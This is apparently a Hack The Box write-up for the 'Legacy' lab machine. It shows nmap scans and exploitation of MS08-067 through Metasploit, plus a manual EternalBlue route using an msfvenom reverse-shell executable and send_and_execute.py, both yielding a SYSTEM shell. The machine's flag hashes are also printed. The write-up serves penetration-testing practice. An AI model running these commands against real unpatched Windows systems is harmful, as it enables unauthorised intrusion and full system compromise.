legacy

nmap
nmap -sC -sV -oA nmap/legacy 10.10.10.4
nmap vuln
nmap --script vulns 10.10.10.4
nmap is showing legacy is vulnerable to BOTH MS08-067 aka netapi

and ms17-010 aka eternal blue
both exploits are infamous as to how well they work against their targets, so its up to personal preference which one you would like to use here
metasploit
https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > show targets
...targets...
msf exploit(ms08_067_netapi) > set TARGET < target-id >
msf exploit(ms08_067_netapi) > show options
...show and set options...
msf exploit(ms08_067_netapi) > exploit
search netapi

use 3


show options

rhosts is a required parameter so we'll set that with

set rhosts 10.10.10.4

but notice we also have to change our lport since it is not using our tunnel's ip

set lhost tun0

show options one more time:

and run

and we have a shell with system privileges!

manual
for our manual exploit we're going to use eternal blueclone eternal blue repo

create reverse shell with msfvenom named eternal_blue.exe

out of the following codes,

use send_and_execute.py with target IP and reverse shell code
python send_and_execute.py 10.10.10.4 eternal_blue.exe

we get back a shell!

unfortunately our shell is a bit limited to baseline commands such as whoami but after navigating around, our owned
user has system privileges

user/root

e69af0e4f443de7e36876fda4ec7644f

993442d258b0e0ec917cae9e695d5713
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/